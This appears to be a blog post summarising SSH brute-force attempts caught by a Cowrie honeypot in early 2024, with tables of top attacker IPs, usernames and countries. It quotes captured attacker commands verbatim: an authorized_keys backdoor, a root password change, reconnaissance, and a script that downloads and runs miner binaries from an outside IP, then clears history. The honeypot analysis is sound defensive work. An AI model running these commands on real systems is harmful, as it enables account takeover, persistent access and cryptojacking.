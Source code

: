 ```yaml
---
title: Bruteforce Attacks Q1 2024
description: >-
  In the first months of 2024 I have set up a cowrie honeypot to see what is new in 2024 😄
author: iacob
date: 2024-07-30
categories: [InfoSec, Statistics]
tags: [cowrie, ssh, attack, bruteforce]
pin: true
---
```


| Top 10 IP Addresses | Top 10 Usernames | Top 10 Countries           |
|---------------------|------------------|----------------------------|
| 185.251.91.121      | root             | China                      |
| 101.35.132.221      | 345gs5662d34     | United States of America   |
| 52.148.221.37       | test             | Russian Federation         |
| 129.146.4.225       | guest            | Hong Kong                  |
| 139.59.252.180      | admin            | Germany                    |
| 77.85.216.134       | user             | Netherlands                |
| 210.3.147.162       | oracle           | Korea (Republic of)        |
| 106.248.231.67      | hadoop           | Singapore                  |
| 190.114.253.211     | es               | Bulgaria                   |
| 1.14.46.198         | hmsftp           | Chile                      |

---

The main attacker `185.251.91.121` has tried to bruteforce the honeypot for **OVER** 1.000 times, while the others ones falling behind at only 400 times and decending.

---

## Some interesting commands

---



#### Backdoor Attempt

Here there was an attempt at a backdoor

> cd ~ && rm -rf .ssh && mkdir .ssh && echo \"ssh-rsa AAAAB3Nza[...]KPRK+oRw== mdrfckr\">>.ssh/authorized_keys && chmod -R go= ~/.ssh && cd ~","message":"CMD: cd ~ && rm -rf .ssh && mkdir .ssh && echo \"ssh-rsa AAAA[...]+oRw== mdrfckr\">>.ssh/authorized_keys && chmod -R go= ~/.ssh && cd ~


Followed by a `chattr` command to assure the file won't be modified further


> cd ~; chattr -ia .ssh; lockr -ia .ssh","message":"CMD: cd ~; chattr -ia .ssh; lockr -ia .ssh


#### System Inspection


Display the size of the filesystem
> df -h \| head -n 2 \| awk 'FNR == 2 {print $2;}'

Get CPU model - relevant to gauge the power (maybe cryptomining)
> lscpu \| grep Model

Get the CPU cores
> cat /proc/cpuinfo \| grep model \| grep name \| wc 

Get RAM information
> free -m | grep Mem | awk '{print $2 ,$3, $4, $5, $6, $7}'

Taking over root account via password change
> echo \"root:bFUDiMA8REPQ\"|chpasswd|bash"

#### Crypto mining

Checking for existing cryptominers
> ps -ef | grep '[Mm]iner'

Autodownload miners and execution
> #!/bin/sh; PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; wget http://43.249.172.195:888/112; curl -O http://43.249.172.195:888/112; chmod +x 112; ./112; wget http://43.249.172.195:888/112s; curl -O http://43.249.172.195:888/112s; chmod +x 112s; ./112s; rm -rf 112.sh; rm -rf 112; rm -rf 112s; history -c; 


